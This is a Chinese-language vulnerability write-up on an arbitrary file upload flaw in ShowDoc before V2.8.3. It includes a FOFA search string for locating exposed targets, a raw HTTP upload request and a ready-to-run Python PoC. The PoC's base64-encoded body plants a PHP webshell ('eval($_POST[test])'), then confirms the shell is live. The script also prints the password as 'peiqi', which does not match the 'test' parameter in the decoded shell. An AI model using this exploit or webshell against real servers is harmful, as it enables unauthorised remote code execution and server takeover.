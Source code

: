 # ShowDoc 任意文件上传漏洞

## 漏洞描述

ShowDoc 存在任意文件上传漏洞，攻击者通过构造特殊的数据包可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> ShowDoc < V2.8.3

## FOFA

> [!NOTE]
>
> app="ShowDoc"

## 漏洞复现

网站首页如下

![](http://wikioss.peiqi.tech/vuln/sh-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

构造如下数据包上传php文件

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 239
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```

![](http://wikioss.peiqi.tech/vuln/sh-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问回显的路径

![](http://wikioss.peiqi.tech/vuln/sh-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import base64
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mTitle: ShowDoc 任意文件上传漏洞                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/index.php?s=/home/page/uploadImg"
    headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)",
            "Content-Type": "multipart/form-data; boundary=--------------------------921378126371623762173617"
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTkyMTM3ODEyNjM3MTYyMzc2MjE3MzYxNwpDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9ImVkaXRvcm1kLWltYWdlLWZpbGUiOyBmaWxlbmFtZT0idGVzdC48PnBocCIKQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluCgo8P3BocCBlY2hvICd0ZXN0X3Rlc3QnO0BldmFsKCRfUE9TVFt0ZXN0XSk/PgotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tOTIxMzc4MTI2MzcxNjIzNzYyMTczNjE3LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "success" in response.text and response.status_code == 200:
            webshell_url = re.findall(r'"url":"(.*?)"', response.text)[0]
            webshell_url = webshell_url.replace('\\','')
            response = requests.get(url=webshell_url, headers=headers,verify=False, timeout=5)
            if "test_test" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,成功上传木马 \n[o] 路径为 {}\033[0m".format(target_url, webshell_url))
                print("\033[32m[o] 密码为: peiqi \033[0m")
            else:
                print("\033[31m[x] 请求失败 \033[0m")
                sys.exit(0)
        else:
            print("\033[31m[x] 上传失败 \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/sh-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)